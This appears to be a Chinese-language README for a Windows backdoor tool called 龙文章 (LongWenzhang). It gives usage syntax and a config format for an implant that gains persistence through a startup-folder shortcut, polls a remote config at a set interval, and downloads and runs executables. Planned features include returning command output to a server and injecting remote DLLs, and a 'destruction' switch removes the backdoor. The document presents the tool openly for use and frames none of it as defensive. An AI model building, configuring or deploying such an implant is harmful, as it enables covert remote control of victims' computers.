# 龙文章

> 炮灰团团长 <我的团长我的团>

![龙文章](http://i0.sinaimg.cn/ent/v/m/2009-04-02/U2184P28T3D2452355F326DT20090402144113.jpg)![龙文章](img.jpg)

- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe



# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe
```
